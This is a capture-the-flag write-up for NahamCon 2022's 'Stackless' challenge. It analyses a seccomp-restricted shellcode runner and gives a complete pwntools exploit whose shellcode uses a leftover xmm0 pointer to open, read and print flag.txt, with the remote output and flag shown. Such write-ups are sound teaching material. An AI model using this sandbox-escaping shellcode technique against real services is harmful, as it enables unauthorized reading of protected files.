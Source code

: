 # NahamCon CTF 2022

## Stackless

> Oh no my stack!!!! 
>
> Author: @M_alpha#3534
>
> [`stackless.c`](stackless.c) [`stackless`](stackless) [`Makefile`](Makefile) [`Dockerfile`](Dockerfile)

Tags: _pwn_ _x86-64_ _shellcode_ _seccomp_ 


## Summary

Classic shellcode runner constrained by seccomp with _common_ registers reset for the lulz.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  Finally.

> BTW, you get all this sweet sweet security for free with `gcc -O2`.


### Source Included

```c
    signal(SIGALRM, timeout);
    alarm(60);
    sandbox();

    __asm__ volatile (".intel_syntax noprefix\n"
                      "mov r15, %[addr]\n"
                      "xor rax, rax\n"
                      "xor rbx, rbx\n"
                      "xor rcx, rcx\n"
                      "xor rdx, rdx\n"
                      "xor rsp, rsp\n"
                      "xor rbp, rbp\n"
                      "xor rsi, rsi\n"
                      "xor rdi, rdi\n"
                      "xor r8, r8\n"
                      "xor r9, r9\n"
                      "xor r10, r10\n"
                      "xor r11, r11\n"
                      "xor r12, r12\n"
                      "xor r13, r13\n"
                      "xor r14, r14\n"
                      "jmp r15\n" ".att_syntax"::[addr] "r"(code));
```

Since this is just a standard shellcode runner, I'm not going to include the entire source here--just submit shellcode and it runs it for you; simple as that.

Above are the constraints.

First, `sandbox` is called to setup a seccomp filter.  A more compact way to examine this is with `seccomp-tools`:

```bash
# seccomp-tools dump ./stackless
Shellcode length
1
Shellcode
1
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0012
 0008: 0x15 0x03 0x00 0x00000003  if (A == close) goto 0012
 0009: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0012
 0010: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

We're limited to `read`, `write`, `open`, `close`, `exit`, and `exit_group` syscalls.

The second constraint is actually more of a dick move--the _common_ registers are reset (zeroed).  Including `r15` since a 3-byte instruction is prepended to your submitted shellcode to reset `r15` before your code starts to run.

With `rsp` zeroed and PIE enabled, we have no idea where in memory we can use as a scratchpad to read in and emit the flag from.

However, our lulzy challenge author was not thorough and left a number of _uncommon_ registered set.  From `gdb` use `i all-r`.

`xmm0` looked most promising:

```
gef➤  i r xmm0
xmm0           {
  v4_float = {0x41000000, 0x0, 0x0, 0x0},
  v2_double = {0x0, 0x0},
  v16_int8 = {0x10, 0xa4, 0x55, 0x55, 0x55, 0x55, 0x0, 0x0, 0xe0, 0xab, 0xf8, 0xf7, 0xff, 0x7f, 0x0, 0x0},
  v8_int16 = {0xa410, 0x5555, 0x5555, 0x0, 0xabe0, 0xf7f8, 0x7fff, 0x0},
  v4_int32 = {0x5555a410, 0x5555, 0xf7f8abe0, 0x7fff},
  v2_int64 = {0x55555555a410, 0x7ffff7f8abe0},
  uint128 = 0x7ffff7f8abe0000055555555a410
}
```

Specifically `v2_int64 = {0x55555555a410, 0x7ffff7f8abe0},`.

Comparing to my memory map:

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
```

It looks like that first location is in the next page after the heap and the heap is `rw`--exactly what we need for a scratchpad.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./stackless', checksec=False)

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30375)
else:
    p = process(binary.path)

shellcode = asm(f'''
movq r15, xmm0
sub r15, 0x1000

lea rdi, [rip+flag]
mov rax, {constants.SYS_open}
syscall

mov rdi, rax
mov rsi, r15
mov rdx, 100
mov rax, {constants.SYS_read}
syscall

mov rdx, rax
mov rdi, {constants.STDOUT_FILENO}
mov rax, {constants.SYS_write}
syscall
hlt

flag: .asciz "flag.txt"
''')

if not args.REMOTE: print(disasm(shellcode))

p.sendlineafter(b'length\n', str(len(shellcode)).encode())
p.sendlineafter(b'code\n', shellcode)
flag = p.recvline().strip().decode()
p.close()
print(flag)
```

The `shellcode` should be fairly obvious:

1. Get the location from `xmm0` that is in the page after the heap and subtract `0x1000` from it.
2. Open `flag.txt`
3. Read `flag.txt` into heap.
4. Write to stdout.


Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 30831: Done
[*] Closed connection to challenge.nahamcon.com port 30831
flag{2e5016f202506a14de5e8d2c7285adfa}
```
